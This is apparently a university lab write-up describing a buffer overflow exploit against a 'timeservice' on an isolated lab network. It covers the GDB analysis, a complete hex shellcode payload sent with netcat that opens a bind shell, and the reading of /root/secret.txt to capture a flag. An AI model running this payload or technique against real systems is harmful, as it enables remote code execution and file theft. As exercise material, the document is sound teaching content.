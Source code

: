 # Buffer Overflow Attack on Time Service

## Overview
This project demonstrates a buffer overflow attack on a time service running on a server. The task was part of a lab exercise aimed at understanding how buffer overflows can be exploited in a controlled environment. The primary objective was to obtain a secret file (`secret.txt`) located in the `/root/` directory of the server by exploiting a buffer overflow vulnerability in the service.

## Objectives
- **Exploit a Buffer Overflow**: Understand and exploit a buffer overflow vulnerability in the time service.
- **Obtain the Secret**: Retrieve the `secret.txt` file from the server's root directory.
- **Demonstrate Exploit**: Develop and execute a custom shellcode to achieve remote code execution on the server.

## Preparation
### Tools and Knowledge
- **Assembler (`nasm`)**: Used for writing the shellcode.
- **GNU Debugger (`gdb`)**: Helpful in identifying the return address and debugging the exploit.
- **Netcat (`nc`)**: Used for communication between the attacker and the server.
- **C/C++ Compiler**: For compiling custom payloads and shellcode.

## Laboratory Setup
1. **Connecting to Chuck**:
    - SSH into the attacker machine "Chuck" using the provided credentials.
    - Enumerate and bring up the network interface.
    - Ensure connectivity to the server "Time" by pinging the server and connecting to the time service on port `2222`.

    ```bash
    ssh userXY@chuck.informatik.tu-cottbus.de
    ifconfig -a
    sudo /usr/sbin/ifconfig ethXY up
    ping -I ethXY -c3 10.10.XY.12
    nc -u 10.10.XY.12 2222
    ```

## Task Description
### Goal
- Exploit the buffer overflow vulnerability in the `timeservice` running on the server.
- Obtain the `secret.txt` file located at `/root/`.

### Steps to Exploit

1. **Identify the Vulnerability**:
    - Analyzed the `timeservice.c` code and found that passing `strlen` with a NULL byte leads to a buffer overflow vulnerability.

2. **Debugging with GDB**:
    - Used GDB to debug the `timeservice` and locate the return address. The following steps were performed:
    
    ```bash
    make -B  # Generate the timeservice binary
    ./timeservice 10.10.10.11 2222
    netstat -anp | grep time  # Find the process ID for the timeservice
    gdb -p <timeservice_pid>  # Attach GDB to the timeservice process
    ```
    - Set breakpoints in the code and observed the memory layout to locate where the return address is stored:

    ```bash
    break 37
    break 48
    break 165
    set follow-fork-mode child
    c
    c
    c
    p &timebuf
    p &format
    x/xw 0xffffdbb0
    quit
    ```

3. **Write and Execute Shellcode**:
    - Created a custom shellcode to exploit the vulnerability. The shellcode was crafted to spawn a shell that could be accessed remotely:

    ```bash
    echo -ne "\x78\x78\x78\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xcf\xb3\x04\x08" | nc -u 10.10.10.12 2222
    ```

4. **Connect to the Time Server**:
    - After injecting the shellcode, connected to the time server using Netcat:

    ```bash
    nc 10.10.10.12 8080
    ```

5. **Retrieve the Secret**:
    - Once connected to the shell on the server, navigated to the `/root/` directory and retrieved the `secret.txt` file:

    ```bash
    cat /root/secret.txt
    ```
    - The secret was successfully extracted:
    ```plaintext
    CTF-FdLSuJqpZEhVPW75vHyg3qxXu17DFFoQyqw+Xh6O
    ```


